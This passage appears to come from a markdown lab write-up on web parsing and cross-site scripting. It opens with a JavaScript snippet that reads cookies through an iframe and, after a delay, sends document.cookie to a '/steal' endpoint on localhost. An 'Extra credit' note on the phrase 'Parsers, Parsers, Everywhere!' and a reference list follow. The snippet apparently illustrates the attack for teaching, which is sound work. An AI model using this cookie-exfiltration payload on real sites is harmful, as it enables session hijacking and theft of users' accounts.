 ```
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
    iframe.src = 'http://localhost:8002/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    setTimeout(function() {
        const p = document.createElement('p')
        p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
        document.body.appendChild(p)
        new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>

```



## Extra credit

* "Parsers, Parsers, Everywhere!". This comes from the famous "Memes, Memes, everywhere".

* However the earliest known imprint of this phase can be found in "The Rime of the Ancient Mariner" which was written by an English port Samuel Taylor Coleridge and published in 1798

* https://www.poetryfoundation.org/poems/43997/the-rime-of-the-ancient-mariner-text-of-1834

* https://knowyourmeme.com/memes/x-x-everywhere


## References


https://syntaxfix.com/question/12368/http-status-code-0-error-domain-nsurlerrordomain

https://www.convertcsv.com/csv-to-markdown.htm

